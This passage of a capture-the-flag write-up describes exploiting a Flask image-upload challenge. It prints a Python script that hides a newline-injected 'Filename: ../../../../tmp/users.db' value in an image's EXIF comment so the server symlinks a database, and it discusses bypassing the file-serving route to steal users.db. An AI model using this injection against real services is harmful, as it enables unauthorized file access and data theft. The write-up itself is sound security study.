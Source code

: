 ```py
from PIL import Image
from PIL.ExifTags import TAGS

image = Image.new('RGB', (1, 1))
exif = image.getexif()
reverse_tags = {v: k for k, v in TAGS.items()}

exif[reverse_tags['UserComment']] = b'USER=foo:111231111111111111111111111111111111111111 ;\nFilename: ../../../../tmp/users.db\n'

img_out_fname = os.path.dirname(__file__) + '/img_out.jpg'
image.save(img_out_fname, exif=exif)

print(f'Image saved to {img_out_fname}')
```

Regardless, both of our scripts achieve the same final result of setting a custom value to symlink from in the `Filename:` metadata tag.

### Stealing the Database

As complicated as that sounds, stealing the database was the easy part. We could symlink `users.db` into our static folder, but no matter what we tried, we couldn't access this `users.db` file.

The main cause of our troubles this code:

```py
@app.route('/get/<file_name>')
def get_file(file_name):
    if not is_jpg_ext(file_name) and not file_name.endswith('.meta'):
        return 'Invalid file extension', 400

    user_static_dir = os.path.join(STATIC_DIR, str(session['user_id']))
    fpath = os.path.join(user_static_dir, file_name)
    return app.send_static_file(os.path.join(str(session['user_id']), file_name))
```

This is the code that is used to serve static files. The extension validation for `.jpg`s and `.meta` files thwarts any attempts at `GET`ing the database (`*.db`), and even though we tried injecting lots of weird characters between the extension and the `users.db` in the request to `/get/users.db`, the URI encoding on all characters meant that only `.jpg` or `.meta` files could be served.

This is where hint #2 comes in:

https://www.geeksforgeeks.org/how-to-serve-static-files-in-flask/


Since this hint is the cheapest, it's a link to a(n incredibly unhelpful) GeeksforGeeks article. This article almost seems useless as a resource, devoid of any real substance, so I didn't understand the purpose of this as a hint. Yet, the answer is revealed as early as the first HTML sample in the article:

```html
<html> 
<head> 
	<title>Flask Static Demo</title> 
	<link rel="stylesheet" href="/static/style.css" /> 
</head> 
<body> 
	<h1>{{message}}</h1> 
</body> 
</html> 
```
